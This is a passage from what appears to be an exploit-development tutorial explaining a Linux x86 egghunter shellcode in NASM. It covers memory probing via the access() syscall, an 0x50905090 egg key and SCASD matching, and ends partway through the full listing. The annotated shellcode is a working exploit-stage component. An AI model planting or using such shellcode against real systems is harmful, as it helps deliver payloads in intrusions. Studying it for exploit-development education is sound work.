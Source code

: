 ```bash
increase_address:
    inc edx             ; increases the EDX register by one

    ; int access(const char *pathname, int mode);
    lea ebx, [edx+0x4]  ; pathname
    push byte 0x21      ; system call number for access (33 decimal)
    pop eax             ; 0x21 value
    int 0x80            ; calling the syscall, returns 0xfffffff2 on EFAULT.

    cmp al, 0xf2        ; sets the Zero Flag when the comparison is true
    jz set_page       ; jump to set_page when ZF is set (not NULL)
```

```bash
 ; preparing the egghunt
    mov eax, 0x50905090 ; 4-byte egghunter key
    mov edi, edx        ; EDX register contains the memory address of writable page
```

The SCASD instruction is used for searching a particular character or set of characters in a string.
The data item to be searched should be in the EAX register

```bash
; hunts for first 4 bytes of egg; scasd sets ZF when we find the match
    scasd               ; compares [EDI] to value in EAX register, increments EDI register by 4 
    jnz increase_address     ; jumps to inc_address when ZF is not set
    
    ; hunts for last 4 bytes of egg
    scasd               ; hunts for last 4 bytes of egg
    jnz increase_address

    ; jumps to the beginning of the shellcode
    jmp edi

```

The full shellcode:

```bash
; Filename: egghunter.nasm

global _start

section .text
_start:
    xor edx, edx        ; zeroing out the EDX register

set_page:
    ;sets EDX register to PAGE_SIZE-1 (4095)
    or dx, 0xfff        ; sets the EDX register to 0xfff;

increase_address:
    inc edx             ; increases the EDX register by one,

    ; int access(const char *pathname, int mode);
    lea ebx, [edx+0x4]  ; pathname
    push byte 0x21      ; system call number for access (33 decimal)
    pop eax             ; 0x21 value
    int 0x80            ; calling the syscall, returns 0xfffffff2 on EFAULT.

    cmp al, 0xf2        ; sets the Zero Flag when the comparison is true
    jz set_page       ; jump to set_page when ZF is set (not NULL)

    ; preparing the egghunt
    mov eax, 0x50905090 ; 4-byte egghunter key
```